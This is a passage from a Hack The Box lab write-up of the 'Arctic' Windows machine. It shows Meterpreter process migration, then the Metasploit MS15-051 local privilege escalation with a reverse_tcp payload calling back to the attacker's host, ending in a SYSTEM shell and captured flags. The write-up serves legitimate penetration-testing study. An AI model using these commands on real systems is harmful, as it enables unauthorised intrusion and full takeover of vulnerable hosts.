 <br>2920&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>3032&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>3172&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;msdtc.exe                                             
 <br>3180&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>3320&nbsp;&nbsp;2892&nbsp;&nbsp;EKieCvWfF.exe                                         
 <br>3356&nbsp;&nbsp;336&nbsp;&nbsp;&nbsp;powershell.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\syswow64\windowspowershell\v1.0\powershell.exe
 <br>3664&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe</p>

<p>meterpreter > migrate 2320
<br><font color="RoyalBlue">[*]</font> Migrating from 3356 to 2320...
<br><font color="RoyalBlue">[*]</font> Migration completed successfully.
<br>meterpreter > sysinfo
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: ARCTIC
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Windows 2008 R2 (Build 7600).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;: x64
<br>System Language : el_GR
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: HTB
<br>Logged On Users : 1
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: x64/windows
<br>meterpreter ></p>
</div>
</font>
<br>We successfully migrated to a x64 process and now we can proceed to epxloit to get system level access.
<br>**POC**
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > background 
<br><font color="RoyalBlue">[*]</font> Backgrounding session 2...
<br>msf exploit(<font color="red">handler</font>) > use exploit/windows/local/ms15_051_client_copy_image 
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set SESSION 2
<br>SESSION => 2
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set payload windows/x64/meterpreter/reverse_tcp
<br>payload => windows/x64/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set target 1
<br>target => 1
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Launching notepad to host the exploit...
<br><font color="53E100">[+]</font> Process 3300 launched.
<br><font color="RoyalBlue">[*]</font> Reflectively injecting the exploit DLL into 3300...
<br><font color="RoyalBlue">[*]</font> Injecting exploit into 3300...
<br><font color="RoyalBlue">[*]</font> Exploit injected. Injecting payload into 3300...
<br><font color="RoyalBlue">[*]</font> Payload injected. Executing exploit...
<br><font color="53E100">[+]</font> Exploit finished, wait for (hopefully privileged) payload execution to complete.
<br><font color="RoyalBlue">[*]</font> Sending stage (1189423 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 3 opened (10.10.*.*:444 -> 10.10.10.11:49272) at 2017-12-30 04:25:47 -0500</p>

<p>meterpreter > getuid 
<br>Server username: NT AUTHORITY\SYSTEM
<br>meterpreter > shell
<br>Process 3652 created.
<br>Channel 1 created.
<br>Microsoft Windows [Version 6.1.7600]
<br>Copyright (c) 2009 Microsoft Corporation.  All rights reserved.</p>

<p>C:\ColdFusion8\runtime\bin>cd /
<br>cd /</p>

<p>C:\>cd users
<br>cd users</p>

<p>C:\Users>cd tolis/Desktop
<br>cd tolis/Desktop</p>

<p>C:\Users\tolis\Desktop>type user.txt
<br>type user.txt
<br><font color="53E100">********************************</font></p>

<p>C:\Users>cd administrator
<br>cd administrator</p>

<p>C:\Users\Administrator>cd Desktop
<br>cd Desktop</p>

<p>C:\Users\Administrator\Desktop>type root.txt
<br>type root.txt
<br><font color="53E100">*******************************</font></p>

</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
